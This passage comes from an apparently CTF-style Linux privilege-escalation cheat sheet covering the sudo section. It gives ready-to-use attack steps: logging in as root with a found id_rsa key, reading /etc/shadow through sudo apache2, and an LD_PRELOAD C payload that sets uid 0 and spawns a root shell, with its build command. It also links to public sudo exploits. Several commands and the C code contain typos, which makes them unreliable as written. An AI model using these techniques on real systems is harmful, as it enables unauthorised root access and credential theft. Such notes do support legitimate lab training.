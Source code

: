 For example if we find id_rsa we can copy paste and try login using that: `ssh -i id_rsa root@<target_ip>`.


# 5. Sudo <a name="Sudo"></a>

Allow us to run command as root.

#### Sudo shell Escaping

`sudo -l`
`cat /etc/sudoers`
`sudo -V`
[GTFOBins](https://gtfobins.github.io/)

[Linux PrivEsc playground - tryhackme](https://tryhackme.com/room/privescplayground)

* * *

#### Escalation via Intended Functionality

For example apache and we may not have this GTFOBins but we have sudo. So we search in google for apache "sudo privelege escalation". Then we may get some results. For example `sudo apache2 -f /etc/shadow`.

[wget](https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/)

* * *

#### Escalation via LD_PRELOAD

```C
#include<stdio.h>
#include<sys/type.h>
#include<stdlib.h>

void init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

`gcc -fPIC -share -o shell.so shell.c -nostartfile`
`sudo LD_PRELOAD=file/path/shell.so apche2`.


#### Examples of exploits

[CMS Made Simple](https://www.exploit-db.com/exploits/46635)
[CVE-2019-14287 Security Bypass](https://www.exploit-db.com/exploits/47502)
[CVE-2019-18634 Github](https://github.com/saleemrashid/sudo-cve-2019-18634)


# 6. SUID <a name="SUID"></a>
